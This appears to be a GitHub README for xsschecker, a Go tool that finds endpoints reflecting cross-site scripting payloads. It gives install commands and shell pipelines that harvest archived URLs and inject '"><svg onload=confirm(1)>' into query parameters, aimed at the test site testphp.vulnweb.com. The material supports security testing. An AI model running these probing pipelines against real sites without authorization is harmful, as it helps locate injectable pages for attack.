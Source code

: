 <h1 align="center">xsschecker</h1> <br>

<h3 align="center">xsschecker tool checking reflected endpoints finding possible xss vulnerable endpoints.</h3>

## Install
```bash
go install github.com/rix4uni/xsschecker@latest
```
or

```bash
git clone https://github.com/rix4uni/xsschecker.git && cd xsschecker && go build xsschecker.go && mv xsschecker /usr/bin/
```
## Chaining with other tools
```bash
echo "http://testphp.vulnweb.com" | waybackurls | anew | gf xss | qsreplace '"><svg onload=confirm(1)>' | airixss -p "confirm(1)" -H "Header1: Value1;Header2: value2"

echo "http://testphp.vulnweb.com" | waybackurls | nilo | anew | gf xss | urldedupe -qs | bhedak '"><svg onload=confirm(1)>' | airixss -p "confirm(1)" -H "Header1: Value1;Header2: value2" --proxy "http://yourproxy"

echo "http://testphp.vulnweb.com" | waybackurls | nilo | anew | gf xss | qsreplace -a | bhedak '"><svg onload=confirm(1)>' | airixss -p "confirm(1)" -H "Header1: Value1;Header2: value2" -x "http://yourproxy"

echo "http://testphp.vulnweb.com" | waybackurls | anew | gf xss | uro | nilo | qsreplace '"><svg onload=confirm(1)>' | airixss -hm -s -c 5
```

urldedupe bhedak
```bash
waybackurls testphp.vulnweb.com | urldedupe -qs | bhedak '"><svg onload=confirm(1)>' | xsschecker
```

Airixss XSS
```bash
waybackurls testphp.vulnweb.com | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | xsschecker
```

Kxss
```bash
waybackurls testphp.vulnweb.com | kxss | grep "=" | sed 's/URL: //' | sed 's/=.*/=/' | uro | qsreplace '"><svg onload=confirm(1)>' | xsschecker
```
